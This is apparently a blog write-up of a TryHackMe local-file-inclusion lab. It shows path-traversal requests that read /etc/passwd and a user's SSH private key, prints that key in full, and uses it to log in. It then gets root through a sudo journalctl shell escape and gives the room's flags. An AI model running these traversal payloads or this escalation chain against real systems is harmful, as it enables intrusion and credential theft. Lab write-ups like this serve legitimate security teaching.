 ```yaml
---
layout: post
title: Write-Up [THM] LFI
categories: [Write-Ups]
tags: [TryHackMe, LFI]
featured-image:  thm/lfi/theme.png
featured-image-alt: LFI
---
```


It's a write-up about the room : [Try Hack Me - Room : LFI Basics]

# [Task 2] - Getting user access via LFI

*  	Look around the website. What is the name of the parameter you found on the website? 
Navigating the page, after click the “Leave a Review” button yeilded a field in the address bar `/home?page=about`. So, the name of the parameter is `page`.

* What is the name of the user on the system?

We entered : `http://10.10.147.195/home?page=../../../../etc/passwd` and found the user **falcon**.  
`falcon:x:1000:1000:falcon,,,:/home/falcon:/bin/bash sshd:x:110:65534::/run/sshd:/usr/sbin/nologin`

* Name of the file which can give you access to falcon's account on the system? **id_rsa**.

In Burp Suite, in the repeater :  
`GET /home?page=../../../../home/falcon/.ssh/id_rsa HTTP/1.1`.   

We found the RSA private key :  

``` 
-----BEGIN RSA PRIVATE KEY-----
MIIEpAIBAAKCAQEAy5ab5+v0aBYFL7dN4O69CqvZdjpSk4/BFMOEndp71fy4qlBi
ewnTYIyKS1DjNhLdbLJZV/8oKOIx/BVSxrw3hnjL/b5d3jUpX1edcX8hjTt10LCT
ubgjWekIpspImHtp/vf9n0IlL1GIWLsxKZXEqyoSvvG4LU6ajrMyHM9jyZ7yMAsS
lHtfNzX22taxJliHF3SFDjf6Z0otY98T273qy6uTchBDEIZx7uJGQF4h9bvSq+22
e7QFY/h/cLrVUPGcRgv2VH4958A5n+BA48ioVyjGRcJlPsa8fNuFkgA8VlJqx/zD
Erf3G97zCY5iZSSm6g+9aUBAoqJqQqnZ1JY/jQIDAQABAoIBAQCjN3qEY7GM5OKB
j6Z7B0s9S+rKkxVywdQczmb6mpefRb3SpSFe3NC+3c1ddlrCFju4kf94wdIzfKxw
GbREKc8mGqAILN9abypdCoPp4u9GJ/5bMcUtJogI4/+QoCm1PXQL+ks1q7TeC7KQ
2HogibajNtbSiD2M7TCR6O3rFQU+NKW3P8R5rTJBFxSqXcoL0aZoOdIISuGo4e2D
w5p8eLHiYmKmQ3KYW58fau1Qnr8t0YoHDlG2wezNBQSckt5xxjY4XWlfcMPAQIP9
VWxv77zIqfLFYj6oH0opPHX7SbdpFVj00h7Ee2C0QR7CKj4lxmE2Dn97LEXksfWM
PqmJwiRBAoGBAPRGPZtAT7TfTac7lXbOYNj/5HuK1Pc7+GtsT8V3AJwbhkeZG/B+
ERee3gKlXhglEup0duxBwy5zTy6vsegMo7sk2ii/GlboR44Yy7OYbjrmIw7JRx6i
IIjN6YeKM+dwLGL7+xG2EavrRBJbuYfp1R139gK5CWd6Yu6xdwtCPS8xAoGBANVc
ZhSQOWzkN0Yq4CsAnKrrtIeynX7wTppy2F3N8/CQHQIYjFx0SZxs/

1MlTXEpFdC+
VHhQ+Cy5O+hndqXiG5sty9wC67lZNaxuBkMoxKgX42JAgxxE41lUadAdRHJ4cq7A
1DiJ1xq3XwP1ZaUEVE/Y3EusMhtr/A6z1dGJcpcdAoGAdb6d14XqZb71iVS5OOlF
2ZOPKNXEzd+EYRN2aDJygszprv1ocEX0KzSSwye+8Vh9g7Hb2Qnh8TP3yQM7eCUP
jxe2aMmlAps4UpA1MD6bc5yW7Xur4mI32HmYxZKibj6txpC7dtASOJJQ36CDD7Zw
2aGHXcyfcdeWdIPqY+zr3SECgYEAoi4SCh93ByaSPWvp6cYVUHbKSzuiLBNOLGiP
vv4GJx3kbutqBfz+10Ci8/iu3Q11365NVwd1HcnPl+DNd1pf0Z0GEL7Hn6QIAIHB
kNs0YPGHje+ruZlDl2tq4x7cIIcd5Wf96Nwd/djVCJVIJh8cV3VoPr0teVqjxik8
poHr8KECgYBGJ/FLmaloEl00YECXAy2uMlvGyaAr2tsq28JF3LvZOXNIhB71+11V
E/gv9PP0ruJJRBv5r2DjAcsWA+sIBf5O8+z5dTeuto5v+WTrpOy8i3FLEWl3hqRH
ANCTI4EhCynYtF8zi8so5zeomlncFZg7JD/dL0gHXu4FImx5sUO9gg==
-----END RSA PRIVATE KEY-----
```

We copied that in a *falcon_rsa* file and changed privileges of the file `chmod 600 falcon_rsa`.  
After that, in the terminal we used ssh to connect : `ssh -i falcon_rsa falcon@ip_machine`.

We used `ls`to see the differents files in the directory. We found `user.txt`.  
Therefore, we read this one `cat user.txt`. We found the flag **B8LEGIF049JT4RTVWUG4**.

# [Task 3] - Escalating your privileges to root

* What can falcon run as root? 

We used `sudo -l` to know how to run as root and the output was :

```
Matching Defaults entries for falcon on walk:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User falcon may run the following commands on walk:
    (root) NOPASSWD: /bin/journalctl
```

So we used : `ls -l /bin/journaltcl`

* What is the root flag?

With gtfobins, we found that : `!/bin/sh` enabled to used shell as root.  
Therefore we searched the root directory : `find /root`. We found `root/root.txt` and used the command `cat`to see the flag : **H1EQRK5XEX140H2KMO08**. 